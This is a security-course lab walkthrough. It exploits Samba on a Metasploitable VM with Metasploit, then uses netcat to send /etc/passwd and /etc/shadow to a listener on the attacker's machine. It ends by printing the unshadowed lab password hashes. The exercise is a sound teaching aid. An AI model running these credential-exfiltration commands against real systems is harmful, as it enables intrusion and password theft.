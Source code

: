 # Lab 7 - Exploiting Samba and Exfiltrating Data 

Target IP: 172.16.0.22
Target: Metasploitable

1. Run nmap against the metasploitable machine using the following command.

	`sudo nmap -sV <metasploitable IP> -vvv` (make a note of open ports and services).

	make a note of what port Samba is running.

	`└─$ sudo nmap -sV 172.16.0.22 -vvv | grep Samba
	139/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)`


2. On your Kali machine launch the metasploit framework.

3. Search for Samba exploits based on version identified in nmap results.

	`msf6> search type:exploit name:samba`

4. Select the exploit matching the version (note that the search option may not provide a lot of information so you will likely have to try multiple exploits to make it work).

5. Select the exploit by using command below.

	`use exploit/xxxxx`

6. Set required options by using set command (hint RHOSTS, and possibly payload).

7. Execute the exploit (this should open a session on the exploited host).

8. Open another Kali terminal window.

9. Launch netcat in a listen mode and redirect output to a file as shown.

	`nc -l -p 4567 > passwd.txt`

10. From the exploited system terminal (session opened from metasploit exploit you executed) type the following commands to extract the `/etc/passwd` file.

	`cat /etc/passwd | nc <kali ip> 4567` (there will be no progress bar and there should be no error messages).

	go back to the listening netcat window and terminate it using CTRL+C. Cat the contents of the `passwd.txt` file using command below.

	`cat passwd.txt` 

11. Start another `netcat` command but redirect the contents to `shadow.txt` instead of `passwd.txt` (use the same command as in Step 9 just change `passwd.txt` to `shadow.txt`).

12. From the exploited system terminal (session opened from metasploit exploit you executed) type the following commands to extract the `/etc/shadow file`.

	`cat /etc/shadow| nc <kali ip> 4567` (there will be no progress bar and there should be no error messages).

	go back to the listening netcat window and terminate it using CTRL+C. Cat the contents of the `passwd.txt` file using command below.

	`cat shadow.txt`

13. On your kali box combine the contents of `passwd.txt` and `shadow.txt` using the command below.

	`unshadow passwd.txt shadow.txt > user_logins.txt` 

14. What is the content of the combined `user_logins.txt` file (include screenshot).

	`root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:0:0:root:/root:/bin/bash
daemon:*:1:1:daemon:/usr/sbin:/bin/sh
bin:*:2:2:bin:/bin:/bin/sh
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:3:3:sys:/dev:/bin/sh
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/bin/sh
man:*:6:12:man:/var/cache/man:/bin/sh
lp:*:7:7:lp:/var/spool/lpd:/bin/sh
mail:*:8:8:mail:/var/mail:/bin/sh
news:*:9:9:news:/var/spool/news:/bin/sh
uucp:*:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:*:13:13:proxy:/bin:/bin/sh
www-data:*:33:33:www-data:/var/www:/bin/sh
backup:*:34:34:backup:/var/backups:/bin/sh
list:*:38:38:Mailing List Manager:/var/list:/bin/sh
irc:*:39:39:ircd:/var/run/ircd:/bin/sh
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:*:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:!:100:101::/var/lib/libuuid:/bin/sh
dhcp:*:101:102::/nonexistent:/bin/false
syslog:*:102:103::/home/syslog:/bin/false
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:103:104::/home/klog:/bin/false
sshd:*:104:65534::/var/run/sshd:/usr/sbin/nologin
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
bind:*:105:113::/var/cache/bind:/bin/false
postfix:*:106:115::/var/spool/postfix:/bin/false
ftp:*:107:65534::/home/ftp:/bin/false
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:!:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:*:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:*:111:65534::/:/bin/false
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:1001:1001:just a user,111,,:/home/user:/bin/bash
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:1002:1002:,,,:/home/service:/bin/bash
telnetd:*:112:120::/nonexistent:/bin/false
proftpd:!:113:65534::/var/run/proftpd:/bin/false
statd:*:114:65534::/var/lib/nfs:/bin/false`

